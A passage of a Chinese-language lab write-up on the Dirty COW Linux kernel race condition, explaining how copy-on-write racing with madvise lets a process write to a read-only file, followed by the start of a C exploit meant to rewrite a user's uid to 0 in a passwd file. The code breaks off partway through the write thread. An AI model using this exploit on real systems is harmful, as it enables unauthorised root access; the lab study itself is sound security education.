 <br>

## 3. Dirty COW 

1. COW机制：复制内容到新内存 --> 修改页表映射，映射到新内存 --> 在新内存进行写操作。
2. 当使用madvise函数中的MADV_DONTNEED参数。进程会放弃已经复制的内存，修改页表映射重新执行原来的内存空间。
3. 所以，我们只需要，按照下面的顺序，便可以利用这里竞争条件漏洞(检查和执行分离)。
4. 复制内容到新内存 --> 修改页表映射，映射到新内存 -->madvise,放弃已经复制的内存，修改页表映射重新执行原来的内存空间 --> 在内存进行写操作，便对只读文件进行了写操作。

![image-20200628085734491](Dirty_COW_Race_Condition_Attack.assets/image-20200628085734491.png)

参考文章：[Pthread线程简单使用](https://www.jianshu.com/p/a49a50f602c0) + [linux C语言多线程编程，如何传入参数，如何获得返回值](https://blog.popkx.com/linux-c-multi-thread-programming-how-to-input-parameters-and-how-to-aquire-return-values/) + [linux查看进程所有子进程和线程](https://blog.csdn.net/uestczshen/article/details/74091892)

```c
/**
 * 文件名: cow_attack.c
 * 编译： gcc -pthread -o cow_attack cow_attack.c
 * 描述： 
 * main thread: 将只读文件/etc/passwd.bak映射进入内存
 * write thread: 对该内存进行写操作，触发COW机制；复制--》页表修改--》写操作
 * madvise thread: 放弃复制的内存，修改页表指回原来只读文件对应的内存
 * 作用：将用户dacao的uid改成0(root)
*/

#include <stdio.h>
#include <sys/types.h>  
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <string.h>
#include <pthread.h>

struct file_info
{
    char *map; //文件映射到内存的起始位置
    off_t file_size;// 文件映射到内存的大小
};


void *writeThread(void *arg){
    char *position = arg;
    char *new_content = "dacao:x:0";

```